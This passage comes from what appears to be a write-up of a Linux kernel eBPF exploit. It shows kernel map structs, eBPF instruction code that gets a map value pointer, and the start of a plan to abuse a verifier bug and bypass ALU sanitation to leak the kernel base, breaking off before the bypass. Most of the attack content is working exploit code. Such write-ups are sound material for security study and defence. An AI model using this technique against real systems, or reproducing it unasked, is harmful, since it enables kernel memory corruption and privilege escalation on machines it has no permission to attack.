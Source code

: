```c
	u32 id;
	int numa_node;
	u32 btf_key_type_id;
	u32 btf_value_type_id;
	struct btf *btf;
#ifdef CONFIG_MEMCG_KMEM
	struct mem_cgroup *memcg;
#endif
	char name[BPF_OBJ_NAME_LEN];
	u32 btf_vmlinux_value_type_id;
	bool bypass_spec_v1;
	bool frozen; /* write-once; write-protected by freeze_mutex */
	atomic64_t refcnt ____cacheline_aligned;
	atomic64_t usercnt;
	struct work_struct work;
	struct mutex freeze_mutex;
	u64 writecnt; /* writable mmap cnt; protected by freeze_mutex */

    // map specific data
};
```
We will be using only Array maps (`BPF_MAP_TYPE_ARRAY`) in the exploit. Its struct is as follows:
```c
struct bpf_array {
	struct bpf_map map;
	u32 elem_size;
	u32 index_mask;
	struct bpf_array_aux *aux;
	union {
		char value[0] __aligned(8);
		void *ptrs[0] __aligned(8);
		void __percpu *pptrs[0] __aligned(8);
	};
};
```
`ops` contains a kernel pointer since the allowed functions for a certain map type are declared at compile time.<br/> For Array map, `ops` will contain `array_map_ops`. We can use that to calculate kernel base.<br/>
We will use a map with a key size of `4`, values size of `0x150` and max_entries `1`.
```c
oob_map_fd = bpf_map_create(4, 0x150, 1);
```
We will use `BPF_FUNC_map_lookup_elem` to get a pointer to the `value` correponding to the `key` (basically a pointer to start of user-controlled data).
```c
// load map_ptr_or_null in BPF_REG_0
BPF_MOV64_IMM(BPF_REG_0, 0),
BPF_STX_MEM(BPF_W, BPF_REG_10, BPF_REG_0, -4),
BPF_MOV64_REG(BPF_REG_6, BPF_REG_1),
BPF_LD_MAP_FD(BPF_REG_1, oob_map_fd),
BPF_MOV64_REG(BPF_REG_2, BPF_REG_10),
BPF_ALU64_IMM(BPF_ADD, BPF_REG_2, -4),
BPF_CALL_FUNC(BPF_FUNC_map_lookup_elem),
// returns map_ptr + 0x110 (offset of .values in bpf_array)

// convert map_ptr_or_null -> map_ptr to perform further operations
BPF_JMP_IMM(BPF_JNE, BPF_REG_0, 0, 1),
BPF_EXIT_INSN(),
```
Now we use the verifier's wrong assumption about the register with value of `0` (say `BPF_REG_0`) to perform pointer subtraction on it to move it back to start of `bpf_array` struct so we can read `ops` pointer.
To do that, we need to bypass ALU Sanitation also.<br/>
Lucky for us, there's an easy bypass here. Remember the `alu_limit = 0` issue?<br/>